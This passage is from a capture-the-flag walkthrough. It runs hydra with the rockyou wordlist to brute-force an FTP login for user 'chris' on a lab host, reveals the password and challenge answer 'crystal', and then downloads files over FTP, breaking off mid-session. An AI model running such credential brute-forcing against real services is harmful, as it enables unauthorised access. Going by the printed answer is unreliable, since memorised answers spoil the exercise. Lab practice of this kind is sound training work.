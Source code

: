## Hash cracking and brute-force

### FTP password

We use `hydra` for `bruteforce` the service ftp. We have already an user `chris`.

```bash

┌──(admin㉿PREDATOR-01)-[/usr/share/wordlists]
└─$ hydra -l chris -P rockyou.txt ftp://$ip
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-09-21 16:43:48
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking ftp://10.10.124.15:21/
[21][ftp] host: 10.10.124.15   login: chris   password: crystal
[STATUS] 14344399.00 tries/min, 14344399 tries in 00:01h, 1 to do in 00:01h, 13 active
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2024-09-21 16:44:53

┌──(admin㉿PREDATOR-01)-[/usr/share/wordlists]

```

Very good, password is `crystal`.

Answer: `crystal`

### Zip file password

We connect via `ftp` to the server with `chris credentials`.
There are some files there, which we download:
```bash

ftp> ls
200 EPRT command successful. Consider using EPSV.
150 Here comes the directory listing.
-rw-r--r--    1 0        0             217 Oct 29  2019 To_agentJ.txt
-rw-r--r--    1 0        0           33143 Oct 29  2019 cute-alien.jpg
-rw-r--r--    1 0        0           34842 Oct 29  2019 cutie.png
ftp> get To_agentJ.txt
local: To_agentJ.txt remote: To_agentJ.txt
229 Entering Extended Passive Mode (|||47851|)
150 Opening BINARY mode data connection for To_agentJ.txt (217 bytes).
100% |**************************************************************************************************************************************|   217       28.98 KiB/s    00:00 ETA
226 Transfer complete.
217 bytes received in 00:00 (0.92 KiB/s)
ftp> get cute-alien.jpg
local: cute-alien.jpg remote: cute-alien.jpg
229 Entering Extended Passive Mode (|||21893|)
150 Opening BINARY mode data connection for cute-alien.jpg (33143 bytes).
100% |**************************************************************************************************************************************| 33143       69.64 KiB/s    00:00 ETAg
et226 Transfer complete.
33143 bytes received in 00:00 (47.10 KiB/s)
 ftp> get cuti.png
local: cutie.png remote: cutie.png
229 Entering Extended Passive Mode (|||5442|)
150 Opening BINARY mode data connection for cutie.png (34842 bytes).
100% |**************************************************************************************************************************************| 34842       68.91 KiB/s    00:00 ETA
```